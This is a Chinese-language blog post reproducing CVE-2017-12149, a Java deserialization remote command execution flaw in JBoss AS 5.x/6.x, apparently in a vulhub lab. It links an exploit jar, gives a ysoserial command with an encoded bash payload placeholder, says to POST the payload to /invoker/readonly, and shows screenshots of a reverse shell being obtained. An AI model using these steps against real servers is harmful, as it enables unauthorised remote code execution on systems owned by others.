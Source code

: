 ```yaml
---
layout: post
title:  "CVE-2017-12149-JBoss-java-deserialization-vulnerability"
date:   2019-01-12 20:15:33 +0700
categories: [Web安全]
---
```


## 0x00 **漏洞概要**

| **漏洞名称**                   | JBOSSAS5.x/6.x反序列化命令执行漏洞 |
| ------------------------------ | ---------------------------------- |
| **威胁类型**                   | 远程命令执行                       |
| **威胁等级**                   | 高                                 |
| **漏洞ID**                     | CVE-2017-12149                     |
| **受影响系统及应用版本**       | Jboss AS 5.xJbossAS 6.x            |
| **不受影响影响系统及应用版本** |                                    |

## 0x01 漏洞描述

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

## 0x01 漏洞分析

![Snipaste_2019_01_12_15_17]({{site.url}}/images/Snipaste_2019_01_12_15_17.png)

上面是`doFilter`函数过滤器，由于其没有对HTTP POST的数据进行有效的检验，所以导致该漏洞

## 0x02 漏洞利用

![Snipaste_2019-01-12_15-39-48]({{site.url}}/images/Snipaste_2019-01-12_15-39-48.png)

访问` /invoker/readonly `请求中，服务器将用户提交的POST内容进行了Java反序列化

![Snipaste_2019-01-12_15-42-22]({{site.url}}/images/Snipaste_2019-01-12_15-42-22.png)

一般存在这个就存在漏洞了。

**使用工具：**

![Snipaste_2019-01-12_16-02-04]({{site.url}}/images/Snipaste_2019-01-12_16-02-04.png)

工具地址：https://github.com/threeworld/java-deserialization-exploits/blob/master/JBoss/jboss%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96_CVE-2017-12149.jar

**使用ysoserial来复现生成序列化数据**

**生成二进制文件：**

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,xxxxx:xxx}|{base64,-d}|{bash,-i}" > poc.ser
```

**发送POC**

生成好的POC即为poc.ser，将这个文件作为POST Body发送至/invoker/readonly即可：

[![img](https://github.com/vulhub/vulhub/raw/master/jboss/CVE-2017-12149/img/3.png)](https://github.com/vulhub/vulhub/blob/master/jboss/CVE-2017-12149/img/3.png)

成功反弹shell：

[![img](https://github.com/vulhub/vulhub/raw/master/jboss/CVE-2017-12149/img/4.png)](https://github.com/vulhub/vulhub/blob/master/jboss/CVE-2017-12149/img/4.png)